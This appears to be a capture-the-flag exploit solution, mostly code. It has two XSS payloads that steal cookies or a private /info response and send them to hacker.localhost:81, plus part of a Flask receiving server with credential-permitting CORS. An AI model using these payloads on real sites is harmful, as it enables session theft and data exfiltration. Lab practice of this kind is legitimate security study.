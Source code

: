 
利用源码

```html
方法1：
    <script>
        all = `${document.cookie}`;
        fetch('http://hacker.localhost:81/', {
            method: 'GET',
            credentials: 'include',
            headers:{
                "Authorization": all
            }
        })
    </script>
方法2：
<script>
    fetch('http://challenge.localhost/info', {
        method: 'GET',
        credentials: 'include'
    })
    .then(response => {
        if (!response.ok) {
            throw new Error('Network response was not ok');
        }
        return response.text();
    })
    .then(data => {
        console.log('Info response:', data);
        return fetch('http://hacker.localhost:81', {
            method: 'GET',
            credentials: 'include',
            headers: {
                "Authorization": data
            },
        });
    })
</script>
```

两种方式的hacker都是相同的

```python
from flask import Flask, redirect, request, session, render_template, make_response
import requests
import http.client

app = Flask(__name__)
def add_cors_headers(response):
    response.headers['Access-Control-Allow-Origin'] = 'http://challenge.localhost'  # 指定允许的来源
    response.headers['Access-Control-Allow-Methods'] = 'GET, POST, OPTIONS'
    response.headers['Access-Control-Allow-Headers'] = 'Content-Type, Authorization' # 注意这里的请求头！
    response.headers['Access-Control-Allow-Credentials'] = 'true'  # 允许发送凭证
    return response

@app.after_request
def after_request(response):
    return add_cors_headers(response)

@app.route('/', methods=['GET', 'POST', 'OPTIONS'])
def index():
    if request.method == 'OPTIONS':
        # 处理预检请求
        response = make_response()
        return add_cors_headers(response)
    
```